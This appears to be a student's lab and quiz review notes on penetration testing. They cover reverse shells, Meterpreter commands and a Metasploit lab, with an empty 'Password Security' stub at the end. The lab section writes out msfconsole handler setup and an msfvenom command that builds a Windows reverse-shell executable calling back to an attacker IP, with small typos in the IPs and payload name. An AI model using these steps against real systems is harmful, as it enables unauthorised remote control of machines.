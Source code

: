 # Lab and Quiz Review
## Quiz
1. A reverse shell is a type of shell in which the target machine communicates back to the attacking machine
  * more practical and widely used
3. Posting on a website is _**not**_ the only way to deliver the payload/malicious code
4. Only the `sessions` command can view and interact with a background session
5. Penetrations testing can evelauate the security of the system or network

* False Statements: cannot be used to identify the vulnerabilities let undetected by automated vulnerability scanners; is an unauthroized attempt to exploit a computer system
7. `screenshot` is the command used to create a printscreen from the target machine in the Meterpreter shell
8. `use exploit` command is used to select an exploit
9. In the `Windows Shell` environment attacker can use “net user” to create an account
10. The `set` command is used to select a payload

## Lab
`
msfconsole // opens the shell
use exploit/multi handler
show options
set payload windows/meterpreter/reverse_tcp
set lhost 192.169.10.13  // ip address of the attacker
set lport 30122
show options // shows us that we have the correct information added
exploit
`
### new terminal window
`
msfvenom -p windows.meterpreter/reverse_tcp lhost=192.168.10.13 lport=30122 -f exe -o kboeh002.exe
`

# Password Security
### 3/21/22
* dd 
* d

`

`
